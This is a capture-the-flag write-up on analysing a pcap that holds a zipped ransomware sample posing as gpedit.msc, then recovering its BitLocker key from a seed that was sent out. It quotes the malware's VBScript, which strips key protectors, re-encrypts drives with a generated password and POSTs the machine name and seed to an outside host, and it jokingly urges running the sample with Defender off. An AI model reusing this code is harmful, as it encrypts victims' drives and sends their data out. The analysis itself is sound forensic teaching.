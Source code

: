 We are given a fairly small .pcap file that we open with Wireshark. Upon filtering for HTTP traffic, we find the first interesting request.

![Alt text](images/request.PNG)

It seems that a zip file was sent to the target machine. We can extract the .zip file by "following the HTTP Stream" in Wireshark and copying the raw bytes. Now, of course, we could paste these bytes into a new file using a hex editor. However, I like to promote the use of unnecessary online tools. So, I paste them into ![This Website](https://tomeko.net/online_tools/hex_to_file.php?lang=en) and download the file.

If they save the files being processed, that is what we call a "no-no" in privacy terms. Let’s hope they don’t try to open the file on a Windows machine.

The downloaded file is a zip file containing a file called gpedit.msc.

The first hint about what this file is comes when we copy it to a Windows machine and it gets deleted immediately. This file might be malware! Here’s a pro tip for people wanting an EPT-Token: Turn off your Windows Defender and run gpedit.msc. It will irrecoverably encrypt your entire system, BUT you will also get an EPT-Coin.

Upon analyzing gpedit.msc, we stumble upon this large block of URL-encoded characters:
![Alt text](images/text_block.PNG)
By utilizing yet another online tool, [CyberChef](https://gchq.github.io/CyberChef/), we decode the characters and get another Visual Basic script!

This script is quite interesting indeed
```vbscript
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command ""$protectors = (Get-BitLockerVolume -MountPoint " & drives(i) & ").KeyProtector; if ($protectors -ne $null) { foreach ($protector in $protectors) { Remove-BitLockerKeyProtector -MountPoint " & drives(i) & " -KeyProtectorId $protector.KeyProtectorId } }""")).stdout.readall) > 0 Then
End If
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command $a=ConvertTo-SecureString " & Chr(34) & Chr(39) & strRandom & Chr(39) & Chr(34) & " -asplaintext -force;Enable-BitLocker " & drives(i) & " -s -qe -pwp -pw $a")).stdout.readall) > 0 Then
End If
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command Resume-BitLocker -MountPoint " & drives(i) & " ")).stdout.readall) > 0 Then End If
```
This part of the scripts in essence enables bitlocker encryption on some drives. The key used for the encryption seems to be "strRandom".

strRandom is defined in the following code snippet:


```vbscript
Dim strRandom
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
Dim seed
seed = CStr(usedMemory) & CStr(usedSpaceTotal) & CStr(freeSpaceTotal) & CStr(freeMemory)  & CStr(sys) & CStr(perf) & CStr(received) & CStr(sent) & CStr(Timer)
Rnd(-1)
Randomize seed
For i = 1 To 64
    
    randomNum = Int(Len(characters) * Rnd(2))
    randomChar = Mid(characters, randomNum + 1, 1)    
    strRandom = strRandom & randomChar
Next
```
Here we can see that a seed for Rnd() is generated using several characteristics of the target machine.
strRandom is then built using Rnd(). 

Since Rnd() is deterministic we could recover strRandom if we had the seed. 

As we can see in this snippet the seed is actually sent to http://192.168.77.136/updatelog

```vbscript
Set httpRequest = CreateObject("WinHttp.WinHttpRequest.5.1")
httpRequest.Open "POST", "http://192.168.77.136/updatelog", False
httpRequest.SetRequestHeader "Content-Type", "application/x-www-form-urlencoded"
httpRequest.SetRequestHeader "accept-language", "fr"
httpRequest.SetRequestHeader "user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0"
httpRequest.Option(4) = 13056
httpRequest.Option(6) = true

computerName = CreateObject("WScript.Network").ComputerName
postDataPlaintext = computerName & vbTab & seed
postDataPlaintext2 = computerName & vbTab & result
```


And lo and behold we can find that request in our .pcap file.

![Alt text](images/request_seed.PNG)

Decoding the base64 string we get "DESKTOP-59C1C3D	43906.83" where 43906.83 is our seed.


By writing the strRandom function ourselves and initializing the Rnd() function with the seed "43906.83" 


```vbscript
Dim strRandom
Dim characters
Dim numericSeed
Dim i
Dim randomNum
Dim fso
Dim outputFile

' Set your numeric seed directly. For example:
' numericSeed = 43906.83  ' Replace this with your actual numeric seed value
numericSeed = "43906.83"
' Randomize with the numeric seed
Rnd(-1)
Randomize numericSeed

' Define characters to choose from
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
strRandom = ""

' Generate random characters
For i = 1 To 64
    randomNum = Int(Len(characters) * Rnd(2))  ' Using Rnd to generate a random number
    strRandom = strRandom & Mid(characters, randomNum + 1, 1)  ' Build the random string
Next

' Show the result in a message box
MsgBox "The random string is: " & strRandom

' Create a FileSystemObject to write the string to a file
Set fso = CreateObject("Scripting.FileSystemObject")

' Create or overwrite the output file
Set outputFile = fso.CreateTextFile("randomString.txt", True)

' Write the random string to the file
outputFile.WriteLine strRandom
outputFile.WriteLine numericSeed

' Close the file
outputFile.Close

' Clean up
Set outputFile = Nothing
Set fso = Nothing


```


we are able to generate the following key:
"_tfeTIO$*Vy##f@GyRfDEJvRvNerHHDrE=GHr0CRFgSX3VYD4koa-LUU&OTDe;rb"

If we decrypt the volume we can access it and get our flag: EPT{it_works_the_machine_works!}


